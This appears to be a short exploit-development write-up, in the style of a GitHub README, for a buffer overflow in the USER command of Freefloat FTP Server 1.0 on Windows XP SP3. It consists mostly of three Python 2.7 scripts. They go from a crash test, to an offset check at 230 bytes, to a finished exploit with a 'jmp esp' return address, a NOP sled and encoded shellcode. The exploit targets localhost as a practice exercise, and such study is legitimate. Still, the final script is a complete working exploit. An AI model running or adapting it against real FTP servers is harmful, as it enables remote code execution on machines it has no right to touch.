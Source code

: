 # Freefloat FTP Server 1.0 _ Win XP SP3 - Buffer Overflow
-   cve details: N/A
-   Target: Freefloat FTP Server 1.0
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger


I create a exploit for send Buffer :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*500

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

Program is crashed and I use mona for create pattern and after check Offset is 230 . in this stage my exploit change to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*230 + "BBBB" + "C"*100

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()
```

It's OK. I need "jmp esp" address and add it. My last exploit is:

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*230 + "\x49\xf0\xde\x77" + "\x90" * 20 +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

s.send("USER "+exploit+"\r\n")
print s.recv(1024)
s.close()

```

![]()
